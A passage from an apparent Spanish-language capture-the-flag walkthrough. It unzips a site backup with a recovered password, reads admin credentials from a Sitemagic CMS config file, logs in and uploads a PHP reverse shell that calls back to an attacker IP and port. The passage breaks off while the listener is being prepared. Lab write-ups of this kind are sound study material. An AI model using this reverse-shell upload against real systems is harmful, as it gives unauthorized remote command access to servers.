 Veremos que la contraseña del archivo `.zip` es `porchman`, por lo que haremos lo siguiente...

```shell
unzip website.zip
```

Metemos esa contraseña y ahora si nos descomprimira todo, por lo que iremos a un archivo dentro de la carpeta que nos llamara mucho la atencion...

```shell
cat sitemagic/config.xml.php
```

Veremos lo siguiente interesante, unas credenciales que podremos usar mas adelante...

```
<!-- REQUIRED, throws custom exception if missing -->
     <entry key="Username" value="admin"/>
 <!-- REQUIRED, throws custom exception if missing -->
     <entry key="Password" value="jesse"/>
```

Vemos que la carpeta a la que entramos se llama `sitemagic` y que contiene una pagina web, a paret de las credenciales que ya encontramos, por lo que si nos vamos a la siguiente `URL` veremos lo siguiente...

```
URL = http://<IP>/sitemagic
```

Esto nos mostrara una pagina web, por lo que iremos al panel de login para logearnos con las cerdenciales que conseguimos...

Una vez logeados, nos iremos al siguiente apartado para poder crearnos una `Reverse Shell`...

```
Content/Files
```

Y ahi dentro veremos una opcion para poder subir un archivo, el cual sera una `Rreverse Shell` de la siguiente manera...

> shell.php

```php
<?php
$sock=fsockopen("<IP>",<PORT>);$proc=proc_open("/bin/sh", array(0=>$sock,   1=>$sock, 2=>$sock),$pipes);
?>
```

Si lo subimos pinchando en la seccion de `Editor` veremos que la shell se subio perfectamente, por lo que nos iremos en la `URL` a la siguiente ubicacion...

```
URL = http://<IP>/sitemagic/files/
```

Aqui veremos 3 carpetas, como la subimos en `Editor` especificamente o en la que lo hayais subido, entraremos por ejemplo a `Editor` y ahi veremos la `shell.php` que subimos pero antes de darle, tendremos que estar a la escucha...
